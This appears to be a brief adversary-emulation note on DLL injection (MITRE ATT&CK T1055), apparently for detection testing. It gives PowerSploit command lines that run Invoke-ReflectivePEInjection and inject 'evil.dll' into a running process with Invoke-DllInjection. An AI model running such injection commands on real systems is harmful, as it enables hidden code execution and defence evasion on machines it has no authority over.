 # DLL Injection

## MITRE ATT&CK Technique:
[T1055](https://attack.mitre.org/wiki/Technique/T1055)

## Examples and code resource for [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)

### PowerShell Invoke-ReflectivePEInjection

#### Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-ReflectivePEInjection.ps1

### Powershell Invoke-DllInjection

#### Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-DllInjection.ps1 -ProcessID 4274 -Dll evil.dll
